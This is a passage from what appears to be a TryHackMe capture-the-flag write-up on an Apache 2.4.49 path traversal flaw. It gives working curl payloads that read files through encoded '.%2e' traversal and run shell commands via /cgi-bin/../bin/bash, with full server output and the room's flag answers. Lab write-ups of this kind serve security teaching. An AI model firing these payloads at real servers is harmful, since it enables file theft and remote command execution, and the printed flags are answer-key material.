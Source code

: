 ```
$ curl -v http://10.10.107.169:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt

- Trying 10.10.107.169:8080...
- TCP_NODELAY set
  % Total % Received % Xferd Average Speed Time Time Time Current
  Dload Upload Total Spent Left Speed
  0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0\* Connected to 10.10.107.169 (10.10.107.169) port 8080 (#0)
  > GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
  > Host: 10.10.107.169:8080
  > User-Agent: curl/7.67.0
  > Accept: _/_
- Mark bundle as not supporting multiuse
  < HTTP/1.1 200 OK
  < Date: Wed, 10 Nov 2021 08:57:26 GMT
  < Server: Apache/2.4.49 (Unix)
  < Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
  < ETag: "1d-5ce102e25be36"
  < Accept-Ranges: bytes
  < Content-Length: 29
  < Content-Type: text/plain
  <
  { [29 bytes data]
  100 29 100 29 0 0 29 0 0:00:01 --:--:-- 0:00:01 29THM{724V3R51N6_P4TH5_F02_FUN}
- Connection #0 to host 10.10.107.169 left intact

```

2. **What is the flag on port 8081?**
- ***THM{2C3_F20M_C61}***

```
$ curl -v 'http://10.10.107.169:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"

- Trying 10.10.107.169:8081...
- TCP_NODELAY set
  % Total % Received % Xferd Average Speed Time Time Time Current
  Dload Upload Total Spent Left Speed
  0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0\* Connected to 10.10.107.169 (10.10.107.169) port 8081 (#0)
  > POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
  > Host: 10.10.107.169:8081
  > User-Agent: curl/7.67.0
  > Accept: _/_
  > Content-Type: text/plain
  > Content-Length: 50
  >
  > } [50 bytes data]
- upload completely sent off: 50 out of 50 bytes
- Mark bundle as not supporting multiuse
  < HTTP/1.1 200 OK
  < Date: Wed, 10 Nov 2021 09:01:11 GMT
  < Server: Apache/2.4.49 (Unix)
  < Transfer-Encoding: chunked
  < Content-Type: text/plain
  <
  { [23 bytes data]
  100 67 0 17 100 50 18 54 --:--:-- --:--:-- --:--:-- 74THM{2C3_F20M_C61}
- Connection #0 to host 10.10.107.169 left intact

```
3. **What is the flag on port 8082?**
- ***THM{D0UBL3_3NC0D1N6_F7W}***
  